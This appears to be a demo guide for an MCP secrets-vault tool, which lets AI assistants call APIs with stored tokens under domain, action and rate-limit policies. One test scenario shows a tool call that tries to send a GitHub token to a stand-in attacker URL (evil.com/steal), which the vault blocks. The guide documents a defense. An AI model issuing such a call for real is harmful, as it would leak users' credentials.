

# MCP Secrets Vault - Demo Guide

## Example Usage with Claude Code



## 🎯 Overview

This demo shows how to set up and use MCP Secrets Vault to securely manage API keys and tokens for AI assistants.

## 🚀 Quick Start

### 1. Install the Package

```bash
npm install -g mcp-secrets-vault
# or use npx without installing
npx mcp-secrets-vault doctor
```

### 2. Set Up Your Secrets

Create environment variables for your secrets:

```bash
export GITHUB_TOKEN="your-github-token"
export OPENAI_API_KEY="your-openai-key"
export SLACK_BOT_TOKEN="your-slack-token"
```

### 3. Create Configuration

Create `vault.config.json`:

```json
{
  "version": "1.0.0",
  "mappings": [
    {
      "secretId": "github_token",
      "envVar": "GITHUB_TOKEN",
      "description": "GitHub API access"
    },
    {
      "secretId": "openai_key",
      "envVar": "OPENAI_API_KEY",
      "description": "OpenAI API access"
    }
  ],
  "policies": [
    {
      "secretId": "github_token",
      "allowedActions": ["http_get", "http_post"],
      "allowedDomains": ["api.github.com"],
      "rateLimit": {
        "requests": 100,
        "windowSeconds": 3600
      }
    },
    {
      "secretId": "openai_key",
      "allowedActions": ["http_post"],
      "allowedDomains": ["api.openai.com"],
      "rateLimit": {
        "requests": 50,
        "windowSeconds": 3600
      }
    }
  ]
}
```

### 4. Verify Setup

```bash
npx mcp-secrets-vault doctor vault.config.json
```

### 5. Configure Claude Desktop

Add to your Claude Desktop `config.json`:

```json
{
  "mcpServers": {
    "secrets-vault": {
      "command": "npx",
      "args": ["mcp-secrets-vault"],
      "env": {
        "VAULT_CONFIG": "/absolute/path/to/vault.config.json"
      }
    }
  }
}
```

## 📋 Test Scenarios

### Scenario 1: List Available Secrets

The AI can discover what secrets are available without seeing their values:

```
Tool: discover_secrets
Response: Lists github_token and openai_key with descriptions
```

### Scenario 2: Check Policy

The AI can check what's allowed for each secret:

```
Tool: describe_policy
Input: { "secretId": "github_token" }
Response: Shows allowed domains (api.github.com) and actions (GET, POST)
```

### Scenario 3: Use a Secret

The AI can make API calls without seeing the actual token:

```
Tool: use_secret
Input: {
  "secretId": "github_token",
  "action": "http_get",
  "url": "https://api.github.com/user/repos"
}
Response: Returns API response without exposing the token
```

### Scenario 4: Rate Limiting

If too many requests are made:

```
Response: Rate limit exceeded (e.g., 100 requests per hour for GitHub)
```

### Scenario 5: Policy Violation

Trying to use a secret for unauthorized domain:

```
Tool: use_secret
Input: {
  "secretId": "github_token",
  "url": "https://evil.com/steal"
}
Response: Domain not allowed (only api.github.com is allowed)
```

## 🔒 Security Features Demonstrated

1. **Secret Isolation**: AI never sees actual secret values
2. **Domain Restrictions**: Exact FQDN matching only
3. **Action Control**: Only specified HTTP methods allowed
4. **Rate Limiting**: Prevents abuse with token bucket algorithm
5. **Audit Trail**: All attempts logged to JSONL files
6. **Error Safety**: Secrets never appear in error messages

## 📊 Checking Audit Logs

After running tests, check the audit trail:

```bash
# View audit files
ls -la ./audit/

# Read recent audit entries
tail -n 10 ./audit/audit-*.jsonl
```

Example audit entry:
```json
{
  "timestamp": "2025-08-21T10:30:00Z",
  "secretId": "github_token",
  "action": "http_get",
  "domain": "api.github.com",
  "outcome": "allowed",
  "statusCode": 200
}
```

## 🧪 Test Commands

```bash
# Run diagnostics
npx mcp-secrets-vault doctor vault.config.json

# Test with real environment
export VAULT_CONFIG=./vault.config.json
npx mcp-secrets-vault  # Starts MCP server

# In another terminal, send test requests
echo '{"jsonrpc":"2.0","id":1,"method":"initialize","params":{"protocolVersion":"1.0.0"}}' | npx mcp-secrets-vault
```

## ⚠️ Important Notes

1. **Never commit real secrets** to version control
2. **Use test tokens** for demonstrations
3. **Set proper rate limits** based on your API quotas
4. **Review audit logs** regularly for security
5. **Keep policies strict** - deny by default

## 🎉 Success Indicators

✅ Doctor command shows all green checks
✅ Claude Desktop can discover available secrets
✅ API calls work without exposing tokens
✅ Rate limits are enforced
✅ Audit logs are being written
✅ Invalid domains are rejected

## 🆘 Troubleshooting

If the doctor command shows errors:

1. **Missing environment variables**: Set them in your shell
2. **Invalid configuration**: Check JSON syntax
3. **Permission issues**: Ensure audit directory is writable
4. **Global installation issues**: Use npx or reinstall

## 📚 Next Steps

1. Add more secrets and policies
2. Configure audit log rotation
3. Set up monitoring for audit events
4. Integrate with your CI/CD pipeline
5. Deploy to production with real tokens

---

For more information, visit: https://github.com/RachidChabane/mcp-secrets-vault